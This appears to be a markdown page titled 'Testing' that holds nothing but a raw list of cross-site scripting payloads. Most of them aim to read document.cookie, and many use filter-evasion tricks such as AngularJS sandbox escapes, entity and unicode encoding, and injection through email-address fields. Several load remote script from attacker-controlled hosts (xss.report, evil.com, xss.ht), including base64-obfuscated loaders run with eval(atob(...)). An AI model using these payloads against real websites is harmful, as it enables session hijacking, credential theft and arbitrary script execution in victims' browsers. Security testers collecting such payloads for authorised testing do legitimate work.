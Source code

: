 # Testing

<style>
{
   backgroundcolor:red;
}

"/>&lt;script>alert(document.cookie)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=document.cookie)')+eval(y)+\"'");}}}}

<script>alert(document.cookie)%0d%0a-->%09</script

' accesskey=X onclick=alert(document.cookie) '

' onmouseover=alert(document.cookie) '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(document.cookie)>
'-alert(document.cookie)-';"-alert(document.cookie)-"//"><svg/onload=alert(document.cookie)>
<img src=totallyfake onerror=alert(document.cookie);//
<img src=x onerror=import(‘//evil.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`document.cookie`>%22%3E%3CSvg/onload=confirm`document.cookie`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(document.cookie)'>
"<script>alert(document.cookie)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(document.cookie)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(document.cookie)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(document.cookie)>


'"><script src=//xss.report/s/Ax01sec></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
javascript:eval('var a=document.createElement(\'script\');a.src=\'//xss.report/s/Ax01sec\';document.body.appendChild(a)')
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>
"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7>
"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xss.report/s/Ax01sec&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//xss.report/s/Ax01sec");a.send();</script>

<script>$.getScript("//xss.report/s/Ax01sec")</script>
var a=document.createElement("script");a.src="//xss.report/s/Ax01sec";document.body.appendChild(a);

















